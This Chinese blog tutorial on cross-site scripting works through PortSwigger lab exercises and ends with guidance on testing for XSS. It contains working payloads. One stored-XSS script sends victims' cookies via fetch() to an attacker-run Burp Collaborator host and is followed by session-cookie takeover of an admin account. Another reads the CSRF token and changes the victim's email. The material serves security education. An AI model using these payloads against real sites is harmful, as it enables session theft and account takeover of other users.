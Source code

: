 ```yaml
---
title: "XSS 漏洞知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试,反射型XSS,存储型XSS]
categories: [web安全]
date: "2020-03-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 通过 XSS 来实现 CSRF

上述的攻击手法有一定的限制之处，而且容易被受害者发现。而配合 CSRF 漏洞，攻击者可以实现执行受害者可以执行的任何操作，并且隐秘性更强。比如我们可以修改用户的邮箱，从而可以充值用户密码。如果受害者是管理员的话，甚至往往可以实现添加用户，删除用户。CSRF 漏洞的防御机制一般是通过 token 来进行防御，但是如果你的应用有 XSS 漏洞，那么这种防御机制就会失效，因为通过 JS 我们就可以获取 token。下面继续通过一个 lab 来演示这种类型的攻击方式：

这个 lab 和之前的一样，这一次我们需要通过 XSS 漏洞来配合 CSRF 漏洞来实现修改受害者的邮箱。首先我们可以通过一个普通用户登录应用，然后发现有一个可以修改邮箱的功能。

![3cJFkq.png](https://s2.ax1x.com/2020/03/01/3cJFkq.png)

通过 Burp 可以捕获修改邮箱的请求：

```
POST /email/change-email HTTP/1.1
Host: acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Connection: close
Content-Length: 57
Cache-Control: max-age=0
Origin: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net/email
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7,zh-TW;q=0.6
Cookie: session=J7wtDYrnotYBeGxHRbxRQAjwWoER6iPb

email=bbb%40bbb.com&csrf=xmLrs2P4dtFVurZlCUVpJsBnvaGlL4T1
```

可以看到这个修改邮箱的请求包含两个参数，即 `email` 以及 `csrf`，很明显，这个请求是使用了 CSRF 防御的。那么现在可以思考一下如何来执行 CSRF。

1. 首先请求修改邮箱功能的页面，获取页面响应。
2. 在页面响应中匹配 csrf，然后提交修改邮箱的 POST 请求。

![3ctH0J.png](https://s2.ax1x.com/2020/03/01/3ctH0J.png)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("POST", "/email/change-email", true);
    changeReq.send("csrf=" + csrf + "&email=hack@hack.com");
}
req.open("GET", "/email", true)
req.send()
</script>
```

只要把上述的 payload 提交到 comment 中，然后提交，就可以实现任何访问这个博客评论的用户都会成为受害者，将其邮箱修改为 `hack@hack.com`。

## XSS 漏洞的测试

接下来可以聊一聊如何测试 XSS 漏洞。不管是手工测试亦或是现在比较流行的被动扫描器的自动化类型的测试，其测试方式基本也是差不多的。

* 测试每一个输入点，每一个 HTTP 请求的输入点都是可以进行测试的，包括 URL 中的参数，以及 BODY，其实 HTTP 头也可以进行测试，不过在实际中，通过请求头的参数来触发 XSS 漏洞的不是太常见。
* 通过输入点提交随机字符串，这么多的目的主要是为了验证通过输入点的 payload 是否影响最终的响应。这里，其实对于自动化类型的测试还有一个小技巧，就是可以在随机字符串中可以去包含一些特殊符号，从而判断应用有没有对相应的符号进行转义，比如单引号、尖括号之类的。
* 找到 payload 在响应中的上下文。这一点其实比较重要的，这关系到你该如何去利用 XSS 漏洞。因为输入点映射在不同的位置，会影响到漏洞的利用方式。比如你的输入点的 payload 可以对应于 HTML 标签中、HTML 标签中的属性，或者是映射到 JS 文件中，通过这些，你可以更好地知道如何去利用 XSS 漏洞。
* 下面就是利用一些常见的 XSS payload 来进行测试，这里可以推荐 Burp 提供的 [XSS payload](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。里面对于不同的浏览器，不同的标签，甚至不同的属性，都有对应的 payload。当然，很有可能这些 payload 并不能直接成功，这个时候可能还需要结合上一点一起看一看来做相应的调整。不过这个 cheetsheet 里面可能已经足够了，可能还是最终没有找到合适的 payload。

对于漏洞的验证，人工测试往往比较直观，大多数都是通过 `alert` 弹窗的形式来验证漏洞是否存在。而对于自动化的漏洞测试工具而言，对于 XSS 漏洞的验证方式可能就会稍微复杂一点，包括验证响应的 `Content-Type`，然后接着验证输入点的输入是如何作用于响应中，通过对响应的解析从而验证漏洞是否利用成功。另外还有一种方式是通过 headless 浏览器去实现，让后来监听弹窗事件，这种测试方式接近于人工测试，但也更加消耗时间和性能。

## 总结

XSS 漏洞作为 Web 应用最为典型的漏洞之一，屡出不鲜。因为 XSS 的漏洞往往要考虑很多因素，包括转义、过滤、以及考虑到应用自身业务的需求，从而避免业务需求和防御需求的冲突。并且防御必须覆盖到应用的每一个输入点，即使仅有一个输入点存在漏洞，应用就存在被攻破的可能性。

## Reference

* https://portswigger.net/web-security/cross-site-scripting

